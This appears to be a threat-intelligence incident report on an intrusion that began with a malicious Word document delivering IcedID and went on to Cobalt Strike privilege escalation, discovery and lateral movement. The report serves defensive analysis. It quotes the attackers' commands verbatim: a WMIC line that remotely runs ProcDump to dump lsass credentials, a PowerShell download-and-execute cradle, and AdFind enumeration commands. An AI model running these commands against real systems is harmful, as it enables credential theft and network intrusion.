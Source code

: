 # Case Summary

This intrusion once again highlights common tools in-use today for Initial Access and Post-Exploitation. Our intrusion starts when a malicious Word document is executed that drops and executes an HTA file. This HTA file is used to download IcedID in the form of a JPG file. This file is actually a Windows DLL file, which is executed via regsvr32 (1st stage IcedID).

IcedID downloads some 2nd stage payloads and loads the DLL into memory with rundll32 (miubeptk2.dll – IcedID – used for persistence) and regsvr32 (ekix4.dll – Cobalt Strike beacon – privilege escalation via fodhelper) to pillage the domain. Service Execution (T1569.002) via Cobalt Strike Beacon was used throughout the intrusion for privilege escalation.

WMIC was utilized to launch ProcDump in an attempt to dump lsass.exe. WMIC was also used to perform discovery of endpoint security software. A flurry of other programs were used to perform discovery within the environment including nltest.exe, adfind.exe via adf.bat, and net.exe. Command and Control was achieved via IcedID and Cobalt Strike.

There were numerous attempts at lateral movement via Cobalt Strike beacons, with limited success. Ultimately, the threat actors were unsuccessful when AV snagged their attempts to move to certain servers.

Particular to this case, we saw an eleven day gap in activity. While command and control never left, activity–other than beaconing, ceased. On day eleven, a new Cobalt Strike infrastructure was introduced to the environment with the threat actor displaying new techniques that were successful in moving laterally, where the initial activity failed.

This may indicate a hand off to a new group, or the original actor may have returned, either way, we did not see a final action on objectives.

# Analysis

Initial access for this intrusion was via a malicious attachment “order 06.21.doc”. The attachment was a Microsoft Word document that drops a malicious HTA file “textboxNameNamespace.hta”.

Analysis of the encoded HTA file revealed that a file named textboxNameNamespace.jpg was downloaded from http://povertyboring2020b[.]com. This file’s extension is misleading as the file is a Windows DLL.

The HTA file is written to:

C:\users\public

The HTA file when executed downloads a file named “textboxNameNamespace.jpg”, which is actually an IcedID DLL file responsible for the first stage.

Through the same HTA file, the IcedID first stage DLL file is executed via regsvr32.exe.

IcedID executes via rundll32, dropping DLL files related to both the IcedID second stage and Cobalt Strike beacons.

After the initial compromise, the threat actors went silent for eleven days. After that period of time, a new Cobalt Strike beacon was run through IcedID and sent forth to a second phase of their activities.

# Persistence

IcedID establishes persistence on the compromised host using a scheduled task named ‘{0AC9D96E-050C-56DB-87FA-955301D93AB5}’ that executes its second stage. This scheduled task was observed to be executing hourly under the initially compromised user.

# Privilege Escalation

Ekix4.dll, a Cobalt Strike payload was executed via fodhelper UAC bypass.

Additional Cobalt Strike payloads were executed with the same fodhelper UAC bypass technique.

Cobalt Strike payloads were used to escalate privileges to SYSTEM via a service created to run a payload using rundll32.exe as the LocalSystem user. This activity was observed on workstations, a file server, and a backup server.

GetSystem was also used by the threat actors.

# Credential Access

The threat actors were seen using overpass the hash to elevate privileges in the Active Directory environment via Mimikatz style pass the hash logon events, followed by subsequent suspect Kerberos ticket requests matching network alert signatures.

ATTACK [PTsecurity] Overpass the hash. Encryption downgrade activity to ARCFOUR-HMAC-MD5",10002228

Using these credentials, the threat actors attempted to use a Cobalt Strike beacon injected into the LSASS process to execute WMIC, which executed ProcDump on a remote system to dump credentials.

cmd.exe /C wmic /node:"servername.domainname" process call create "C:\PerfLogs\procdump.exe -accepteula -ma lsass C:\PerfLogs\lsass.dmp"

This activity appears to have failed due to Windows Defender activity.

IcedID initially performed some discovery of the local system and the domain.
- WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get * /Format:List
- ipconfig /all systeminfo
- net config workstation
- net view /all /domain nltest /domain_trusts /all_trusts
- nltest /domain_trusts
- net view /all
- net group "Domain Admins" /domain

Later, Cobalt Strike beacons were used to perform discovery of the system and domain.
- cmd.exe /C systeminfo 
- cmd.exe /C nltest /dclist:DOMAIN.local 
- cmd.exe /C nltest /domain_trusts /all_trusts IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:55869/'); Find-LocalAdminAccess

A discovery batch script that runs ADFind.exe was dropped to the system.

ADFind.exe was executed by the discovery batch script.
- cmd.exe /C C:\Windows\Temp\adf\adf.bat
- adfind.exe -f "(objectcategory=person)"
- adfind.exe -f "(objectcategory=organizationalUnit)"
- adfind.exe -f "objectcategory=computer"
- adfind.exe -sc trustdmp
- adfind.exe -subnets -f (objectCategory=subnet)
- adfind.exe -f "(objectcategory=group)"
- adfind.exe -gcb -sc trustdmp

PowerView was used to discover local administrator access in the network. The Cobalt Strike beacon itself was used as a proxy to connect and retrieve the PowerView file.

Cobalt Strike was injected into the winlogon.exe process and used to perform further discovery.
- cmd.exe /C net group "domain Admins" /domain 
- cmd.exe /C net group "Enterprise Admins" /domain 
- cmd.exe /C ping WORKSTATION 
- cmd.exe /C net view \\WORKSTATION /all 
- cmd.exe /C net view \\DOMAINCONTROLLER /all 
- cmd.exe /C dir /s

The following shows the decoded PowerShell commands used by Cobalt Strike to perform discovery.

# Lateral Movement

Lateral Movement chain #1 – The attacker was able to successfully move from workstation #1 to workstation #2 via service execution. The attacker tried to replicate this movement technique towards two servers but were stopped when their Cobalt Strike PowerShell payloads were nabbed by AV.

Lateral Movement chain #2 – Another attempt was made to move from workstation #1 to one of the servers, but this attempt was also thwarted by AV. Just like the previous attempt, a remote service was created, however, this time a DLL payload was used rather than a PowerShell payload.

Lateral Movement chain #3 – Privileges were escalated to SYSTEM on Workstation #1 via the Cobalt Strike ‘GetSystem’ command which makes use of named pipes. A Cobalt Strike DLL was copied to a server and executed using WMI. This activity was observed on three servers, including the Domain Controller.

The logs demonstrate multiple connections from IcedID to their C2 servers, including aws.amazon[.]com for connectivity checks.


The Cobalt Strike beacons also make use of multiple C2 servers on the public internet.

Cobalt Strike Configs:

# MITRE ATT&CK DATASET
Spearphishing Attachment – T1566.001

Malicious File – T1204.002

Signed Binary Proxy Execution – T1218

Windows Management Instrumentation – T1047

Command and Scripting Interpreter – T1059

PowerShell – T1059.001

Windows Command Shell – T1059.003

Service Execution – T1569.002

Windows Service – T1543.003

Bypass User Account Control – T1548.002

OS Credential Dumping – T1003

System Information Discovery – T1082

Security Software Discovery – T1518.001

Domain Trust Discovery – T1482

Network Share Discovery – T1135

SMB/Windows Admin Shares – T1021.002

Lateral Tool Transfer – T1570

Application Layer Protocol – T1071
